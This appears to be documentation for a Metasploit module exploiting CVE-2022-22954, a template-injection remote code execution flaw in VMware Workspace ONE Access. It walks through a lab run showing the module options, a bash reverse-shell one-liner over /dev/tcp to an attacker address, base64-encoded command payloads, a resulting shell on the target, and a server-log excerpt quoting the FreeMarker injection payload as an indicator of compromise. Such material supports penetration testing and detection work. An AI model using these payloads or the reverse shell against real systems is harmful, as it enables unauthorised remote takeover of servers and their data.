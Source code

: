 ## Vulnerable Application

### Setup

Follow [Installing and Configuring VMware Workspace ONE Access] or simply import the OVA into a **VMware hypervisor**. The target should be exploitable out of the box.

1. Import `identity-manager-21.08.0.1-19010796_OVF10.ova`
1. Boot the VM
1. Hax

[Installing and Configuring VMware Workspace ONE Access]: https://docs.vmware.com/en/VMware-Workspace-ONE-Access/21.08/workspace_one_access_install/GUID-0FABD001-050B-4A54-B100-2FA4E8F55613.html

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

## Scenarios

### VMware Workspace ONE Access 21.08.0.1

```
msf6 > use exploit/linux/http/vmware_workspace_one_access_cve_2022_22954
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/vmware_workspace_one_access_cve_2022_22954) > options

Module options (exploit/linux/http/vmware_workspace_one_access_cve_2022_22954):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      443              yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


msf6 exploit(linux/http/vmware_workspace_one_access_cve_2022_22954) > set rhosts 192.168.0.5
rhosts => 192.168.0.5
msf6 exploit(linux/http/vmware_workspace_one_access_cve_2022_22954) > set lhost 192.168.0.4
lhost => 192.168.0.4
msf6 exploit(linux/http/vmware_workspace_one_access_cve_2022_22954) > set reverselistenerbindaddress 127.0.0.1
reverselistenerbindaddress => 127.0.0.1
msf6 exploit(linux/http/vmware_workspace_one_access_cve_2022_22954) > set verbose true
verbose => true
msf6 exploit(linux/http/vmware_workspace_one_access_cve_2022_22954) > run

[+] bash -c '0<&159-;exec 159<>/dev/tcp/192.168.0.4/4444;sh <&159 >&159 2>&159'
[*] Started reverse TCP handler on 127.0.0.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Executing command: bash -c {eval,$({echo,ZWNobyAzUjNQazhpemd6}|{base64,-d})}
[+] The target is vulnerable.
[*] Executing cmd/unix/reverse_bash (Unix Command)
[*] Executing command: bash -c {eval,$({echo,YmFzaCAtYyAnMDwmMTAxLTtleGVjIDEwMTw+L2Rldi90Y3AvMTkyLjE2OC4wLjQvNDQ0NDtzaCA8JjEwMSA+JjEwMSAyPiYxMDEn}|{base64,-d})}
[*] Command shell session 1 opened (127.0.0.1:4444 -> 127.0.0.1:57862) at 2022-05-03 02:33:24 -0500

id
uid=1001(horizon) gid=1003(www) groups=1003(www),1001(vfabric),1002(pivotal)
uname -a
Linux photon-machine 4.19.217-1.ph3 #1-photon SMP Thu Dec 2 02:29:27 UTC 2021 x86_64 GNU/Linux
```

## IOCs

### `/opt/vmware/horizon/workspace/logs/greenbox_web.log`

```
[snip]
2022-05-03 07:33:17,988 WARN (Thread-147) [com.vmware.endusercatalog.ui.web.UiApplicationExceptionResolver.resolveException] <GreenBox> <correlation_id: fe10fc5e-ff7d-4a5a-96bf-f2e1b20eb63f> <tenant_id: zt1myh6phvlz> <client_ip: 192.168.0.2> <username: > <device_id: > - Additional error info for requestId fe10fc5e-ff7d-4a5a-96bf-f2e1b20eb63f which resulted in return code 400, mapped to error code auth.context.invalid and, error is: {"code":"auth.context.invalid","message":"Authorization context is not valid. Login request  received with tenant code: zt1myh6phvlz, device id: null, device type: ${\"freemarker.template.utility.Execute\"?new()(\"bash -c {eval,$({echo,YmFzaCAtYyAnMDwmMTAxLTtleGVjIDEwMTw+L2Rldi90Y3AvMTkyLjE2OC4wLjQvNDQ0NDtzaCA8JjEwMSA+JjEwMSAyPiYxMDEn}|{base64,-d})}\")} and token revoke status: false."}, mapped exception class :class com.vmware.endusercatalog.auth.InvalidAuthContextException
[snip]
```
